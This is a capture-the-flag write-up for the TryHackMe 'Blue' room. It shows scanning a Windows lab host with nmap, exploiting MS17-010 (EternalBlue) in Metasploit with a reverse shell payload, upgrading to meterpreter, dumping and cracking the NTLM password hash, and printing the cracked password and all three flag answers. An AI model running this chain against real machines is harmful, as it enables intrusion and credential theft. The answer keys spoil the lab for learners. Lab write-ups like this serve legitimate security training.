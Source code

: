 # [Blue](https://tryhackme.com/room/blue)

> Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

## Scanning

scan the machine

```
nmap -A -T4 10.10.92.237
```

![image](https://user-images.githubusercontent.com/90561566/200109367-28962f61-8943-4d14-8a73-9e5d964af0d3.png)

We can see it's a windows machine name Jon-PC and 3 port under 1000 is opening

![image](https://user-images.githubusercontent.com/90561566/200109397-8209737a-a141-42ab-b58d-0fd91247e152.png)

Nmap also find a lot of vulnerabilities (seem about smb vuln)

```
nmap --script=vuln -T4 10.10.92.237
```

![image](https://user-images.githubusercontent.com/90561566/200109617-23ce7abd-c8a3-4729-bd8b-31bfde219ef9.png)

the answer is CVE-2017-0143 (ms17-010)

## Exploitation

Start Metasploit and use module exploit/windows/smb/ms17_010_eternalblue 

```
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
```

![image](https://user-images.githubusercontent.com/90561566/200110267-d066ba86-1cd8-4301-b7f4-e7e3c3dd3408.png)

now we need to set RHOSTS

```
set RHOSTS 10.10.92.237
set payload windows/x64/shell/reverse_tcp
exploit
```

if failed, try reboot the target machine or set LHOST with your openvpn ip

background session

![image](https://user-images.githubusercontent.com/90561566/200110728-b322a970-d94b-489c-a342-f782c011b32f.png)

## Privilege Escalation

now, we need convert shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
set session 1
exploit
```

it will create a new session 2

```
sessions -i 2
```

now we have escalated to NT AUTHORITY\SYSTEM

![image](https://user-images.githubusercontent.com/90561566/200111595-a6ede282-41cf-4a14-bcc2-08e4f6806903.png)

![image](https://user-images.githubusercontent.com/90561566/200111623-264280be-54ae-4768-96db-d10c804d6d94.png)

background this session too

First, let's list all of the processes running on the system. 

Just because we have system level privileges doesn't mean our process does! We'll have to migrate to a new process that does have those permissions

![image](https://user-images.githubusercontent.com/90561566/200111864-c9d79ce8-da34-49ec-8721-09779a558625.png)

Once a process is found, type migrate PROCESSID, where PROCESSID is the id of the process we are migrating to 

This migration process may fail, migrating processes is only successful realistically about 25% of the time.

## Cracking

dump all of the passwords

```
hashdump
```

![image](https://user-images.githubusercontent.com/90561566/200111953-f057a115-6e76-402c-89f5-b6f4afc5f380.png)

copy password hash to file

```
type ffb43f0de35be4d9917ac0cc8ad57f8d > pass.txt
```

windows pass is using NTLM hashtype (nt) with id=1000

```
hashcat -a 0 -m 1000 pass.txt /usr/share/wordlists/rockyou.txt --show
```

![image](https://user-images.githubusercontent.com/90561566/200112436-d0629063-8109-44df-a9fd-0e5354e4b018.png)

password is `alqfna22`

## Find flags

at meterpreter, we can use `search` as very strong command

```
search -f *flag*
```

![image](https://user-images.githubusercontent.com/90561566/200159342-b96d8ff8-db83-41d1-a558-01c5ee965280.png)

```
cat C:/flag1.txt
```

| Flag | flag1.txt |
| --- | --- |
| Answer | flag{access_the_machine} |

```
cat C:/Windows/System32/config/flag2.txt
```

| Flag | flag2.txt |
| --- | --- |
| Answer | flag{sam_database_elevated_access} |

```
cat C:/Users/Jon/Documents/flag3.txt
```

| Flag | flag3.txt |
| --- | --- |
| Answer | flag{admin_documents_can_be_valuable} |
